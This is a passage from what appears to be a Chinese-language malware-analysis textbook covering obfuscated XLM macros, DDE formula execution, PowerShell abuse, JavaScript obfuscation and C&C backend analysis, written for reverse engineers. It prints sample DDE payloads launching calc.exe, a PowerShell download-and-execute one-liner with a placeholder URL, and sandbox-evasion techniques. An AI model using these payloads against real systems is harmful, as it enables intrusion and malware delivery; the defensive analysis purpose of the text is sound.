但实际上，几乎所有现代恶意宏都会被混淆，并且会使用一套不同的宏来构建实际的恶意功能。我们将在这里介绍这些宏。对于`.xls`文档，在`.xlsb`和`.xlsm`基于 OOXML 的 Excel 文档之后，相应的数据通常可以在 BIFF12 和 XML 格式的`\xl\macrosheets\`目录中找到。

最后，与 VBA 宏一样，公式可以使用一些特定的标准单元格名称来实现自动运行功能。一个例子是以`Auto_Open`前缀开头的单元格：



图 10.13 – 将自动执行的 XLM 宏所在的单元格

现在，让我们讨论基于 XLM 的有效载荷是如何被混淆的。

### 混淆

攻击者可能尝试通过多种方式使逆向工程师在试图理解恶意软件的目的时遇到困难。让我们探讨其中最常见的几种方式：

+   使用白色字体和白色背景以及分散的公式，使文档打开时不可见。

+   使用 `RUN` 和 `GOTO` 公式通过从一个单元格跳到另一个单元格来使控制流复杂化。

+   使用 `CHAR` 命令动态解析字符串字符，使用 `MID` 获取子字符串。

+   使用 `FORMULA` 命令移动或累积工作表中的内容，或者使用 `GET.CELL` 和 `SET.VALUE` 命令的组合来修改内容。

+   将恶意公式存储在隐藏的工作表中。分为两种类型，每种类型应采用不同的处理方式：

    +   `hidden`：右键点击任何可见工作表并选择 **取消隐藏…**，然后启用所有隐藏的工作表：



图 10.14 – 在 Excel 中取消隐藏隐藏的工作表

+   `veryhidden`：将对应的 `BoundSheet` 记录中的 `hsState` 字段从 `2` 更改为 `0`，该记录是 BIFF8 格式（这需要使用专用工具，如 **OffVis**）：



图 10.15 – 更改与非常隐藏工作表关联的 hsState 字段

+   使用隐藏的名称。要显示它们，请清除相应 `LBL` 记录中的 `fHidden` 位：



图 10.16 – 更改 fHidden 字段以取消隐藏关联的名称

+   使用 `GET.WORKSPACE` 和不同的参数来检测沙箱，例如以下内容：

    +   `13`/`14`：工作区宽度/高度

    +   `19`：鼠标可用性

    +   `31`：如果当前正在使用单步执行模式

    +   `42`：音频可用性

+   仅在特定日期执行有效载荷以干扰行为分析

+   检查字体大小和行高，或者检查窗口是否已最大化，以检测篡改行为

这些是最常见的混淆技术。最后，让我们看看哪些工具能帮助我们进行分析。

### 静态与动态分析

首先，前面提到的 **olevba** 工具也可以用来自动提取 XLM 宏。如果系统中还安装了另一个名为 **XLMMacroDeobfuscator** 的工具，那么 olevba 的输出也会被很好地去混淆：



图 10.17 – 提取并去混淆的 XLM 宏链

除此之外，Microsoft Excel 提供了很好的内嵌调试公式的功能。主要是其名称管理器和宏调试器部分将特别有用：



图 10.18 – 使用 Excel 调试器动态分析 XLM 宏链

最后，**BiffView** 和 **OffVis** 工具可以提供 BIFF8 内部结构的详细视图。OffVis 还可以帮助绕过一些之前提到的混淆技术，这些技术涉及隐藏工作表和名称。

关于 XLM 宏的内容到此为止。我们已经学习了很多关于基于宏的威胁，因此现在是时候讨论其他恶意软件通过滥用 MS Office 文档来实现其目标的方法了。

## 除了宏之外

攻击者可能使用其他方法来在文档打开后执行代码。另一种方法是使用 *鼠标点击*/*鼠标悬停* 技术，该技术通过在用户将鼠标移到 PowerPoint 中的精心设计对象上时执行命令。

这可以通过将相应的操作分配给它来完成，如下所示：



图 10.19 – 在 PowerPoint 中为对象添加操作

好消息是，更新版本的 Microsoft Office 应该已经启用了受保护视图（只读访问）安全功能，如果文档来自不安全位置，它将警告用户可能的外部程序执行。在这种情况下，一切都依赖于社交工程——攻击者是否成功说服受害者忽视或禁用所有警告。

恶意软件可能实现执行的另一种不太常见的方法是使用 `.SettingContent-ms` 文件扩展名，或嵌入到其他文档中。在那里可以使用 `DeepLink` 标签指定要执行的命令。在几次尝试滥用此功能后，微软迅速增强了该功能的安全性。现在，我们很少看到恶意软件再针对它进行攻击。

最后，`DDEAUTO` 字段与执行命令的参数。这种功能的另一种滥用方式是使用 Microsoft Excel 中的特定语法。在这种情况下，恶意文件将以以下方式构造命令：

```
(+|-|=)<command_to_execute>|'<optional_arguments_prepended_by_space>'!<row_or_c olumn_or_cell_number>
```

或者，可以将命令作为参数传递给内置的良性函数，如 `SUM`。以下是一些执行 `calc.exe` 的示例有效载荷，前提是用户确认：

```
=calc|' '!A
+cmd|' /c calc.exe'!7
@SUM(calc|' '!Z99)
```

这是 Microsoft Excel 在使用此技术时显示的警告信息示例：



图 10.20 – 与潜在代码执行相关的 Microsoft Excel 警告框示例

**msodde** 工具（**oletools** 的一部分）可能有助于在样本中检测此类技术。

虽然此处的任何代码执行都需要用户确认后才能启用，但借助社交工程，这依然是一个可能的攻击途径。

现在我们已经掌握了基于宏的威胁，接下来是时候讨论攻击者如今常常滥用的另一种脚本语言——PowerShell！

# PowerShell 的强大功能

PowerShell 代表了 Windows Shell 和脚本语言的持续演变。其强大的功能、对.NET 方法的访问以及与最近版本 Windows 的深度集成，极大促进了它在普通用户和恶意攻击者中的流行。从攻击者的角度来看，它有许多其他优势，特别是在混淆方面，我们将详细讲解。此外，由于整个脚本可以被编码并作为单个命令执行，它不需要脚本文件写入硬盘，因此对法医专家留下的痕迹最少。

让我们从其语法的特点开始。

## 基本语法

PowerShell 命令行参数因其实现的某些特性而为攻击者提供了独特的机会。例如，PowerShell 能够理解即使是截断的参数和相关参数，只要它们不含歧义。让我们回顾一些在执行恶意代码时常用的值：

+   `-NoProfile`（通常简称为`-NoP`）：跳过加载 PowerShell 配置文件的过程；它很有用，因为它不受本地设置的影响。

+   `-NonInteractive`（通常简称为`-NonI`）：不会显示交互式提示；当目的是仅执行指定命令时非常有用。

+   `-ExecutionPolicy`（通常简称为`-Exec`或`-EP`）：通常与`Bypass`参数一起使用，用于忽略限制某些 PowerShell 功能的设置。也可以通过其他方法实现；例如，通过修改 PowerShell 的执行策略注册表值。

+   `-WindowStyle`（通常简称为`-Win`或`-W`）：通常攻击者会使用`Hidden`（或`1`）参数来隐藏对应的窗口，以达到隐蔽目的。

+   `-Command`（通常简称为`-C`）：执行在命令行中提供的命令。

+   `-EncodedCommand`（通常简称为`-Enc`、`-EC`或`-E`）：用于执行在命令行中提供的编码（base64）命令。

在前面的例子中，命令行参数可以被截断成任意数量的字母，仍然对 PowerShell 有效。例如，`-NoProfile`和`-NoProf`，或者`Hidden`和`Hidde`，都会被按相同方式处理。

关于语法，让我们看看一些攻击者常常滥用的命令。

**本地 cmdlet**：

+   `Invoke-Expression`（`iex`）：执行作为参数提供的语句；它与 JavaScript 中的`eval`函数非常相似。

+   `Invoke-Command`（`icm`）：通常与`-ScriptBlock`参数一起使用，实现与`Invoke-Expression`几乎相同的功能。

+   `Invoke-WebRequest`（`iwr`）：发送一个 Web 请求；例如，它可以发送请求与 C&C 进行交互。

+   `ConvertTo-SecureString`：通常用于解密嵌入的脚本。

**基于.NET 的方法**：

+   来自`[System.Net.WebClient]`类，我们有以下内容：

    +   `DownloadString`：下载一个字符串并将其存储在内存中，例如一个新命令或要执行的脚本。

    +   `DownloadData`：攻击者较少使用此方法；它将有效负载作为字节数组下载。

    +   `DownloadFile`：将文件下载到磁盘，例如一个新的恶意模块。

这些方法每个都有一个异步版本，带有相应的名称后缀（如`DownloadStringAsync`）。

+   从`[System.Net.WebRequest]`、`[System.Net.HttpWebRequest]`、`[System.Net.FileWebRequest]`和`[System.Net.FtpWebRequest]`类，我们有以下方法：

    +   `Create`（也包括`CreateDefault`和`CreateHttp`）：用于创建一个向服务器发送的网络请求。

    +   `GetResponse`：发送请求并获取响应，例如与一个新的恶意模块。带有`Async`后缀和`Begin`、`End`前缀的版本也可用于异步操作（如`BeginGetResponse`或`GetResponseAsync`），但攻击者很少使用这些异步版本。

    +   `GetRequestStream`：返回一个用于向互联网资源写入数据的流——例如，窃取一些有价值的信息或发送感染统计数据。带有`Async`后缀和`Begin`、`End`前缀的版本也可以使用。

+   从`[System.Net.Http.HttpClient]`类，我们有以下方法：

    +   `GetAsync`、`GetStringAsync`、`GetStreamAsync`、`GetByteArrayAsync`、`PostAsync`和`PutAsync`：这些是发送任何类型 HTTP 请求并接收响应的多种选择。

+   `[System.IO.Compression.DeflateStream]`和`[System.IO.Compression.GZipStream]`类通常用于解压经过 Base64 解码后的嵌入式 Shellcode。它们通常与`[System.IO.Compression.CompressionMode]::Decompress`参数一起用作`[System.IO.StreamReader]`对象的参数（以下截图提供了示例）。

+   从`[System.Convert]`类，我们有以下方法：

    +   `FromBase64String`：用于解密 Base64 编码的字符串，例如下一个阶段的有效负载。

对于.NET 命名空间，`System.`前缀可以安全省略，如下所示：



图 10.21 – 一个 Veil 有效负载的示例

如我们所见，结合压缩和 Base64 编码是攻击者常用的技术，用于存储下一个阶段的有效负载，从而使分析和检测更加复杂。我们将在下一节中详细讨论其他混淆技术。以下是下载并执行有效负载的代码示例：

```
iex(new-object net.webclient).downloadstring('http://<url>/payload.bin')
```

与命令行参数一样，方法名可以被截断而不会产生歧义。分析师可以使用带有通配符的`Get-Command`/`gcm`命令来识别完整的名称，攻击者也可以使用它们来动态解析方法名。

PowerShell 还可以用于执行自定义的 .NET 代码。特别是，`Add-Type -TypeDefinition <variable_storing_source_code>` 语法可以用来动态编译 .NET 源代码直接在 PowerShell 脚本中，这样它就可以立即使用。为了这个目的，`csc.exe` 工具将在后台被使用。

臭名昭著的基于 PowerShell 的 Bluwimps 将信息存储在 WMI 管理类中。这使得它难以通过传统的防病毒解决方案进行检测，并且可以通过 **Windows 管理工具命令** (**WMIC**) 远程执行代码，而不是使用更广泛使用的 **psexec** 工具。

## 混淆

网上有多个开源工具可以生成和/或混淆基于 PowerShell 的有效载荷用于渗透测试。此列表包括但不限于以下内容：

+   PowerSploit

+   PowerShell Empire

+   Nishang

+   MSFvenom（Metasploit 的一部分）

+   Veil

+   Invoke-Obfuscation

如我们所知，PowerShell 命令是通过 Windows 控制台执行的，因此我们之前描述的几乎所有混淆技术都可以在这里应用。此外，几种其他简单的混淆技巧也证明非常流行：

+   使用基本的 `+` 语法进行多重字符串连接，可以是实际值或存储它们的变量，或者使用 `Join` 或 `Concat` 函数。

+   多个过多的单引号、双引号和反引号。

+   `split` 和 `join` 的使用，如下所示：

    ```
    iex (<value_with_separators>.split("<separator>") -join "") | iex)
    ```

+   字符串反转（通常是通过从末尾读取反转的字符串，或将其强制转换为数组并使用 `[Array]::Reverse`；很少使用带有 `RightToLeft` 遍历类型的正则表达式）。使用 `[Char]<numeric_value>` 或 `ToInt<int_size>` 语法而不是符号本身。

+   使用上述方法（参见 *图 10.21* 了解示例）结合压缩和 Base64 编码。

在加密方面，以下方法已被证明非常流行：

+   `-bxor` 算术运算符用于简单加密。

+   `ConvertTo-SecureString` cmdlet 用于将加密块转换为安全字符串，它将信息以加密形式存储在内存中。通常与以下代码块一起使用，以访问安全字符串内部的实际值：

    ```
    [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR(<secure_string>))
    ```

对于此 cmdlet，可以通过 `-key` 或 `-securekey` 参数（或类似 `-kE` 的参数）提供解密密钥。

为了处理它们，你必须成功识别正在使用的算法，然后使用可用信息反转逻辑。使用你喜欢的编程语言编写简单脚本是一种选择，但在许多情况下，只能通过在线 **CyberChef** 工具来处理。

让我们讨论一下我们可以使用哪些其他工具来促进分析。

## 静态分析和动态分析

PowerShell 有一个强大的内嵌帮助工具，可以用来获取任何命令的描述。通过执行 `Get-Help <command_name>` 语句可以获取：



图 10.22 – 获取 PowerShell 命令的描述

总的来说，去混淆和解码操作主要只需要一套基本技能，例如如何解码 base64，如何解压 deflate 和 gzip，如何去除无意义的字符，如何替换变量，以及如何读取部分完成的命令。在这种情况下，任何带有相应语法高亮的文本编辑器都可以用于静态分析。

虽然`xor`可以通过多种方式解密，但处理嵌入式 PowerShell 加密的最简单方法是通过 PowerShell 的动态分析，`Set-Content`、`Add-Content`和`Out-File` cmdlet，并且可以使用管道符号（`|`）或经典的`>`和`>>`输入重定向：

```
powershell -c "$a='secret'; $a | set-content 'output.txt'"
```

或者，可以使用`Write-Host` cmdlet 将解密后的输出写入控制台，然后重定向到文件。最后，一个名为**PSDecode**的强大工具可以用来快速处理混淆，自动化完成（这可能涉及代码执行，所以请谨慎使用）。

现在，到了讨论基于 JavaScript 的威胁的时刻。

# 处理 JavaScript

JavaScript 是一种网页语言，驱动着互联网数十亿的页面，因此它被广泛用于创建针对网络用户的漏洞利用也不足为奇。然而，在 Windows 上，也可以通过 Windows 脚本宿主执行 JScript（一个与 ECMAScript 非常相似的方言）文件，这也使其成为恶意附件和后渗透脚本的一个不错的候选项。例如，一种名为**Poweliks**的无文件威胁通过存储在注册表中的 JScript 代码实现系统持久化，而无需在磁盘上留下独立的文件。

由于 JavaScript 和 JScript 之间存在一些微小差异，这里我们将介绍它们共同的语法。此外，从现在开始，我们将使用 JavaScript 符号表示法。

JavaScript 文件的通用扩展名是`.js`；编码过的 JScript 文件则有`.jse`扩展名。此外，它们也可以像 VBScript 一样嵌入到`.wsf`和`.hta`文件中。在相似性方面，在 Windows 上，`.js`/`.jse`和`.wsf`文件可以通过`wscript.exe`和`cscript.exe`本地执行。另一方面，`.hta`文件则由`mshta.exe`执行。执行内联 JavaScript 脚本有几种方式：

`mshta javascript:<script_body>`

`rundll32.exe javascript:"..\mshtml,RunHTMLApplication";<script_body>`

除此之外，在 Windows 上，可以使用`regsvr32.exe`作为 COM 脚本组件（`.sct`文件）执行 JavaScript 代码。在 Linux 上，有多种方法可以从控制台执行 JavaScript 文件，例如**phantomjs**，当然，也可以在完整的浏览器中执行 JavaScript 代码。我们将在*静态与动态分析*部分详细讨论这一点。

## 基本语法

如果脚本将要在本地执行，则应特别注意某些类型的操作，它们可以回答关于脚本目的、持久性机制和通信协议的问题。与 VBScript 的相似性方面，在 Windows 上，可以使用相同的 COM 对象，如前所述：



图 10.23 – 一个 JavaScript 代码示例，写入数据到 Windows 上的文件

在 Linux 上，JavaScript 不用于本地执行命令，因为它需要一些自定义模块，如 node.js，而这些模块可能在目标系统上不可用。

在 Web 应用程序中，以下函数需要注意：

**代码执行**：

`eval`: 执行作为参数提供的脚本块

**页面重定向**：

这里有多种选项，如下方代码块所示：

+   window.location = '<new_url>';

+   window.location.href = '<new_url>';

+   window.location.assign('<new_url>');

+   window.location.replace('<new_url>'); // 替换浏览器历史中的当前页面

重要提示

`window.` 部分通常可以省略。

+   self.location = '<new_url>';

+   top.location = '<new_url>';

+   document.location = '<new_url>';

    重要提示

    它们也有可能的衍生技术，类似于前面提到的基于 window.location 的技术。

除此之外，还有另一种不使用 JavaScript 的方式来重定向用户：

+   <meta http-equiv="refresh" content="<num_of_seconds>; url=<new_url>">;

**外部脚本加载**：

+   <script src="img/<name>.js">

+   var script = document.createElement('script'); script.src = <something>;

**Web 请求到远程机器**：

+   `XMLHttpRequest` 对象：

    +   `open`: 用于创建请求的方法

    +   `send`: 发送请求的方法

    +   `responseText`: 用于访问服务器响应的属性

+   `fetch`: 一种较新的发送和处理 HTTP 请求的方式，在 ES6 中被标准化。

流行的库，如 jQuery 和自定义的异步 JavaScript 与 XML（Ajax）实现，通常在后台使用 `XMLHttpRequest` 和有时的 `fetch` 请求。

## 反逆向工程技巧

最常见的 JavaScript 混淆技术是使用一些变种，通过解密或从整数中组合来动态构建下一层 JavaScript 代码，随后使用 `eval` 函数执行或通过 `document.write` 更新文档：



图 10.24 – 混淆的基于 JavaScript 的威胁

然而，许多恶意软件作者广泛使用了其他一些技术：

+   **将成功解密所需的块存储在单独的块或文件中**：在这种情况下，仅获取解密函数可能不足，因为它依赖于某些其他数据片段的外部存储。

+   `performance.now()` 或 `date.now()` 函数被使用。

+   `arguments.callee` 属性。

+   `console.log` 函数：

    ```
    window['console']['log'] = <other_function>;
    ```

另外，也可以按如下方式重新定义该函数：

```
var console = {};
console.log = <other_function>;
```

+   **检测开发者工具**：实现这一功能的方法有很多种，例如通过检查 Windows 的内外尺寸。

还有其他技术，但这些在恶意软件中使用得最为频繁。

## 静态与动态分析

随着网页开发的兴起，已经有许多工具可以用来分析和调试 JavaScript 代码——从带有语法高亮的基本文本编辑器到相当复杂的套件。然而，开发者的使用场景与逆向工程师的使用场景截然不同，这最终决定了他们使用的程序集合。

首先，为了加快分析速度，重构现有的 JavaScript 代码，使其逻辑更易于跟踪是非常有意义的。许多工具可以实现这一目标，它们包含基本的解包和去混淆逻辑，例如**jsbeautifier**。

就通用动态分析而言，像**Chrome 开发者工具**和**Firefox 开发者工具**这样的嵌入式浏览器工具集非常方便。使用它们时，需要编写一个小的 HTML 块来加载感兴趣的 JavaScript 文件。

在这里，JavaScript 代码被嵌入到页面本身：



图 10.25 – Chrome 开发者工具中嵌入式 JavaScript 代码的示例

这是 Firefox 中外部加载的 JavaScript 脚本：



图 10.26 – Firefox 开发者工具中外部 JavaScript 脚本的示例

此外，还有一些定制工具实现了恶意软件分析所需的功能。其中之一是**Malzilla**；这个免费的工具集结合了多个小工具，通过实现最常见的操作，旨在简化分析过程。虽然相对较旧，但仍被许多恶意软件分析师用来快速穿透混淆层并提取实际功能。

Malzilla 最常用的功能是可以拦截`eval`调用并将其参数输出到屏幕的模块。这个功能非常有用，因为大多数混淆技术都会在执行之前，通过此功能构建实际的有效载荷。这意味着这是解密或去混淆后的逻辑变得可用的地方，有时需要几次迭代。它还包括各种智能解码器，极大地加速了分析过程：



图 10.27 – Malzilla 解码器

另一个这样的工具的例子是较新的**JSDetox**项目。它旨在促进静态分析并处理 JavaScript 混淆技术。与 Malzilla 不同，它更侧重于 Linux 环境：



图 10.28 – 描述其功能的 JSDetox 网站

现在，让我们来谈谈后台代码。

# C&C 背后——即使是恶意软件也有自己的后台

许多恶意软件家族使用某种形式的 C&C 服务器来接收来自恶意攻击者的更新或自定义命令，或者将被窃取的数据外泄。访问这些后台文件可以为研究人员和执法机构提供大量关于恶意软件如何运作以及受害者是谁的信息。有时，这甚至可以追溯到真正的攻击者！因此，正确且及时地分析从 C&C 获取的代码是一项研究人员必须时常面对的重要任务，所以最好做好准备！

## 需要关注的事项

只要分析员能访问代码，制定并优先处理待解答问题的清单是有意义的。通常，从后台可以获得以下信息：

+   它是实际的后台代码，还是一个将消息重定向到另一个位置的代理？恶意软件使用了什么 URI 或端口？

+   接受的请求或消息的格式是什么，是否涉及加密？

+   是否有任何命令可以自动或按需返回给恶意软件？

+   它是否能发出自毁命令，并且是否有任何形式的认证？

+   是否有供攻击者使用的网页接口或仪表盘？

+   日志、额外载荷和被窃取数据的存放位置在哪里？

+   是否有关于受影响用户的统计数据可用？

+   是否有任何日志能够揭示恶意软件作者的身份？SSH 或 RDP/自定义 RAT 日志可能有助于回答这个问题。

更高级的步骤包括寻找可能有助于识别未来 C&C 的通信模式。如果使用了 HTTPS 协议，检查相应证书的来源可能会有意义。

## 静态和动态分析

